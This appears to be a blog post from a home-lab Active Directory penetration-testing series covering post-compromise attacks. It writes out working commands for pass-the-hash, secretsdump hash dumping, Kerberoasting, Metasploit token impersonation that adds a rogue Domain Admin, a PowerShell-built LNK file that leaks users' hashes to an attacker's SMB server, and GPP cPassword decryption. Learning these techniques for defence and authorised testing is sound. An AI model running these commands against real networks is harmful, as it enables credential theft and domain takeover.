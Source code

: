 ```yaml
---
layout: single
title: "Post-Compromise Attacks in AD"
date: 2024-10-05
categories:
  - Active Directory
tags:
  - AD
  - Post-Compromise
permalink: /projects/ad-hacking-home-lab/post-compromise-attacks/
order: 3
---
```


## Attack 1: Pass the hash

- it’s used a lot for pivoting after gaining access to the AD so using a compromised account obviously

```jsx
crackmapexec smb 192.168.52.0/24 -u credfield -d RACCOON.local -p Password1
```

![AD-PC-A-01](/assets/images/AD-images/AD-PC-A-01.png)

- we can also take the hash from dumping tool like [secretsdump.py](http://secretsdump.py)

```jsx
secretsdump.py RACCOON.local/credfield:Password1@192.168.52.139
```

![AD-PC-A-02](/assets/images/AD-images/AD-PC-A-02.png)


- then passing the hash

```jsx
crackmapexec smb 192.168.52.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth
```

![AD-PC-A-03](/assets/images/AD-images/AD-PC-A-03.png)


- we could also dump sam hashes of every machine we connect to

```jsx
crackmapexec smb 192.168.52.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth --sam
```

![AD-PC-A-04](/assets/images/AD-images/AD-PC-A-04.png)


- We can also list the shares

```jsx
crackmapexec smb 192.168.52.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840 --local-auth --shares
```

- There is also a super option that enumerates lsassy, using that we can see if there are some other credentials that we normally can’t get anywhere else using the -M —lassy option, it also dumps ntlm hashes that can be cracked.
- another option the the —lsa it dumps lsa secrets and hackable ntlm hashes.

### Dumping and cracking the hashes

- we can use secretsdump to dump hashes using either the password or the hash.

```jsx
secretsdump.py RACCOON.local/credfield:Password1@192.168.52.139
```

```jsx
secretsdump.py administrator:@192.168.52.139 -hashes aad3b435b51404eeaad3b435b51404ee:5b4c6335673a75f13ed948e848f00840
```

- what’s important is the sam hashes so we can then crack the ntlm hash using john or hashcat.

## Attack 2: Kerberoasting

- The goal of kerberoasting is to get the TGS and decrypt server’s account hash

 

1. (User to DC) Request TGT. provide NTLM hash
2. (DC to User) Receive TGT enc w/ krbtgt hash
3. (User to DC) Request TGS for Server (Presents TGT)
4. (DC to User) Receive TGS enc w/ server’s account hash
5. (User to App Server) Present TGS for service enc w/ server’s account
6. (App Server to User) Used when mutual authentication is required

- get the service account hash using this command then crack it.

```jsx
sudo GetUserSPNs.py RACCOON.local/credfield:Password1 -dc-ip 192.168.52.138 -request
```

![AD-PC-A-05](/assets/images/AD-images/AD-PC-A-05.png)


## Attack 3 : Token impersonation

- Tokens are temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.
- There are two types :
1. Delegate : created for logging into a machine or using remote desktop.
2. Impersonate : “non-interactive” such as attacking a network drive or a domain logon script.
- So basically we take advantage of a compromised user to impersonate other users and eventually add an admin user for easier usage
- The first step is to use a metasploit exploit psexec (or the standalone tool) on the user machine, again, i had to turn off windows defender.


![AD-PC-A-06](/assets/images/AD-images/AD-PC-A-06.png)


- Then we load the Incognito mode for this specific attack.

```bash
load incognito
#to list the tokens
list_tokens -u
#to impersonate a token
impersonate_token RACCOON\\credfield
```

![AD-PC-A-07](/assets/images/AD-images/AD-PC-A-07.png)


- to reverse to the older user (token)

```bash
rev2self
#check 
getuid
```

- If i sign out and login as administrator it’s going to catch that in the listed tokens, so we impersonate it using the same method (command)
- after that we simply add a new user then add it to the “Domain Admins”

```bash
#add a new user
net user /add lkennedy Password1@ /domain
#add it to admins group
net group "Domain Admins" lkennedy /ADD /DOMAIN
```

![AD-PC-A-08](/assets/images/AD-images/AD-PC-A-08.png)


- To check we can simply user secretsdump and since lkennedy is in the Domain Admins group it will dump the hashes.

## Attack 4 : LNK file attacks

- Putting a malicious file in a shared folder can lead to great things!
- first create this in a powershell environment

```bash
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\192.168.138.149\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

![AD-PC-A-09](/assets/images/AD-images/AD-PC-A-09.jpg)


- We copy that tagged file into the share “hackme”, but before that we make sure to rename the file to “@test” so it always stays on top.
- when a user opens a share containing that file it will immediately catch their hash and share it on our server, we could either do it the manual way and use responder to get the hashes or use NetExec as below.

```bash
NetExec smb 192.168.52.139 -d raccoon.local -u credfield -p Password1 -M slinky -o NAME=test SERVER=192.168.52.132
```

- This will automatically dump the file in an open share when it finds it.

## Attack 5 : GPP / cPassword attack (old)

- Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials.
- These credentials were encrypted and placed in a “cPassword”.
- The key was accidentally released.
- Patched in MS14-025, but it doesn’t prevent previous uses.
- still relevant on pentests.
- You probably still find the xml files containing encrypted cpasswords and we can decrypt it using gpp-decrypt.
- There is the attack in metasploit that enumerates the xml files and dumps and decrypts the cpasswords.
- To mitigate patch AND delete the old GPP xml files stored in the SYSVOL

## Post-Compromise attack strategy :

Search the quick wins

1. Kerberoasting
2. Secretsdump
3. Pass the hash / pass the password

No quick wins? dig deep

1. Enumerate (bloodhund etc)
2. Where does the compromised account have access to?
3. Old vulnerabilities die hard

Think outside the box.